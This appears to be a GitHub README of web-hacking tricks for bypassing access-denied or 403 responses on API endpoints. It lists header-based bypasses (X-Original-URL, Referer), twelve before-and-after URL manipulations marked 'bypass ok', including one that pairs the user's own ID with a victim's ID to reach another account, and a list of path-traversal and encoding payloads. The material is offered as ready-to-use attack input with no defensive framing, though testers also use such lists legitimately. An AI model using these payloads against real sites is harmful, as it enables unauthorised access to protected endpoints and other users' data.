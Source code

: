 # Web-Hacking #
## Topics 

#### Tricks
<b>If you want do bypass endpoint always try to use own methodology.</b>

<b>Example</b>:

Http Header based bypass:

<b>1.</b> X-Original-URL: /redact

<b>Example:</b><br/>
 
GET /api/getUser HTTP/1.1 → 403
Host: redact.com

GET / HTTP/1.1
Host: redact.com
X-Original-URL: /api/getUser → 200 OK

<b>2.</b> Referer: https://site.com/api/redact

Example:<br/>
  

GET /api/getUser HTTP/1.1 → acess denied
Host: redact.com

  
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 OK
 
  or
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 ok

More examples:

<b>3</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid.json → bypass ok

<b>4</b>. https://site.com/api/v1/redactid → acess denied
https://site.com/api/v1/users/redactid: → bypass ok

<b>5</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid..;/ → bypass ok

<b>6</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid\..\.\getUser → bypass ok

<b>7</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid/ → bypass ok

<b>8</b>. https://site.com/api/v1/users/redactid → acess denied
https://site.com/api/v1/users/redactid?? → bypass ok

<b>9</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v2/users/redactid → bypass ok
            or
https://site.com/api/v3/users/redactid → bypass ok

<b>10</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid&accountdetails → bypass ok

<b>11</b>. https://site.com/api/v1/users/victim?id=BAEILsaqQhk → acess denied
https://site.com/api/v1/users/your?id=UAEILsdUf50&victim?id=BAEILsaqQhk → bypass ok

<b>12</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid/email → bypass ok

Payload for basic test:

? <br/>
?? <br/>
& <br/>
# <br/>
% <br/>
%20 <br/>
%09 <br/>
/ <br/>
/..;/ <br/>
../ <br/>
..$2f <br/>
..;/ <br/>
../ <br/>
\..\.\ <br/>
.././ <br/>
..%00/ <br/>
.%0d/ <br/>
..%5c <br/>
..\ <br/>
..%ff/ <br/>
%2e%2e%2f <br/>
.%2e/ <br/>
%3f <br/>
%26 <br/>
%23 <br/>
.json <br/>

HTTP Header based bypass:

1. X-Original-URL: /redact
2. Referer: https://site.com/api/redact



